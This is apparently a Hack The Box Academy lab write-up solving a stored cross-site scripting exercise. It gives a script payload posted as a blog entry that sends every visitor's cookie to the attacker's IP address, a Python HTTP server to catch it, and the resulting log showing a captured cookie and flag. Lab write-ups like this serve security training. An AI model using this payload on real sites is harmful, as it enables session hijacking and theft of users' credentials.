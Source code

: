The web field is vulnerable.

We can store a malicious payload on the page in the form of a blog post, whenever somone visits the page, their browser will execute the payload and send us their cookie.

We will grab almost the same payload as in the previous question.

Payload: `hax><script>new Image().src='http://10.10.15.133/index.php?c='+document.cookie</script>`

Then, set up a HTTP server with Python so we can catch the victims cookie when the page is visited.

```bash
┌──(kali㉿kali)-[~/tmp]
└─$ sudo python3 -m http.server 80                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.100.111 - - [14/May/2022 15:48:26] "GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1652557705;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4} HTTP/1.1" 404 -
10.129.100.111 - - [14/May/2022 15:48:26] code 404, message File not found

```

We got the cookie!

**Answer:** `HTB{cr055_5173_5cr1p71n6_n1nj4}`

---

**Tags:** [[Hack The Box Academy]]
